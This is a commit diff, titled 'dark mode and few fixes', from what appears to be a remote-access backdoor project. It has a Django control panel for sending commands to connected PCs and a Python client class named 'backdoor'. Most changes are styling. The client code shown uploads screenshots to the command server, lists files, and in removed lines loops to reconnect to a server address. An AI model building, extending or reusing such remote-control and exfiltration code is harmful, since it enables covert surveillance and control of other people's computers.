

dark mode and few fixes

diff --git a/server/backdoor/templates/backdoor/pc_detail.html b/server/backdoor/templates/backdoor/pc_detail.html
@@ -7,10 +7,10 @@
         <p id="ping-{{pc.id}}" class="offline" style="margin-left:7px;"></p>
     </div>
     <div class="mb-3">
-        <textarea class="form-control" id="exampleFormControlTextarea1" style="border:1px solid;" rows="10"></textarea>
+        <textarea class="form-control" id="exampleFormControlTextarea1" style="border:1px solid grey;color:white;" rows="10"></textarea>
     </div>
         <div class="mb-3">
-            <textarea class="form-control" id="code" name="code" rows="10" style="border:1px solid;"></textarea>
+            <textarea class="form-control" id="code" name="code" rows="10" style="border:1px solid grey;color:white;"></textarea>
         </div>
         <button onclick="send_command()" class="btn btn-primary">Send</button>
         <a href="{% url 'clean' pc.id %}"><button type="button" class="btn btn-dark">Clear</button></a>

diff --git a/server/backdoor/templates/backdoor/home.html b/server/backdoor/templates/backdoor/home.html
@@ -9,7 +9,7 @@
         </div>
         <h4 style="color:grey;font-size:16px;">{{computer.ip_addr}}</h4>
         <a style="text-decoration:none;" href="{% url 'computer-detail' pc_id=computer.id %}">
-            <button type="button" class="btn btn-dark">Control</button>
+            <button type="button" class="btn btn-outline-light">Control</button>
         </a>
         </div>
         <script>$(document).ready(function(){

diff --git a/server/static/main.css b/server/static/main.css
@@ -1,3 +1,6 @@
+*{
+    background-color: #0D1117;
+}
 .online{
     font-size:30px;
     font-weight: 500;

diff --git a/client/new_main.py b/client/new_main.py
@@ -80,7 +80,7 @@ class backdoor:
                 sample_file = open("screenshot.png", "rb")
                 upload_file = {"file": sample_file}
                 r = requests.post(f"{self.url}api/files/", files = upload_file)
-                output += f"{self.url}media/files/screenshot.png"
+                output += f"{self.url}media/files/screenshot.png\n"
             elif command.startswith("ls"):
                 output = ""
                 for i in os.listdir():
@@ -242,13 +242,7 @@ class backdoor:
         return output
     
 
-while True:
-    try:
-        backdoor("http://127.0.0.1:8000/") 
-    except:
-        pass
-    try: 
-        backdoor("http://10.2.100.100:8000/") 
-    except:
-        pass
+
+backdoor("http://127.0.0.1:8000/") 
+
   
